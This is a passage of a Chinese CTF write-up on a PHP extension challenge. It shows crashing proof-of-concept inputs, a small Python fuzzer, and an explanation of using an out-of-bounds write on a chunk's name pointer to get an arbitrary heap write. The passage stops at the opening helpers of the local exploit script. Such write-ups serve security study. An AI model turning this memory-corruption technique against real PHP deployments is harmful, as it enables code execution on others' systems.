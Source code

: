 ![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250404132547-n39gf22.png)

这个时候可以手工删减poc，以确定触发漏洞的输入：

```php
<?php
add_chunk(14, [0x5ac569df, 0x6c313c17, 591877129, 0x1fe65652, -944419699, -841403074, 154814687, 0xe98c4764, -864569255, 0xb719576e, 0xa73bb273, 0xd8f3896e, -902885394, 0x30dfbfa0], "U");
show_chunk(0);
```

这样就可以确定是排序导致的问题了，这个时候可以进一步针对这个数组序列构造fuzz：

```php
def generate_number():
    """生成随机整数（十进制或十六进制）"""
    return hex(random.getrandbits(32))

def generate_string():
    """生成随机PHP字符串"""
    chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_'
    return f'"{random.choices(chars, k=random.randint(5, 15))[0]}"'

def generate_php_code():
    """生成随机PHP测试用例"""
    code = ["<?php\n"]
    size = random.randint(1, 5)
    numbers = [generate_number() for _ in range(size)]  # 固定5个元素
    name = generate_string()
    code.append(f"add_chunk({size}, [{', '.join(numbers)}], {name});\n")
    code.append(f"show_chunk({0});\n")
```

这样跑起来就得到了很简单的poc：

```php
// Return code: -11
// Stderr: 
<?php
add_chunk(4, [0xcb949c35, 0x177c5522, 0xfec7b323, 0x726bb3bc], "i");
show_chunk(0);
```

会把size改大：

![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250404133728-irm7iaq.png)

这样可以得到一个在php堆上的下溢任意地址写：

![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250404134112-cxyx8u9.png)

思路也比较简单，就是第一次利用越界写修改下一个chunk的`name`​指针，再利用这个`name`​指针实现任意地址写。这里给出直接打本地的脚本，远程同理：

```php
<?php

$game_base = 0;
$libc_base = 0;
$libc = "";
$mbase = "";

function u64($leak){
    $leak = strrev($leak);
    $leak = bin2hex($leak);
    $leak = hexdec($leak);
    return $leak;
}

function p64($addr){
```
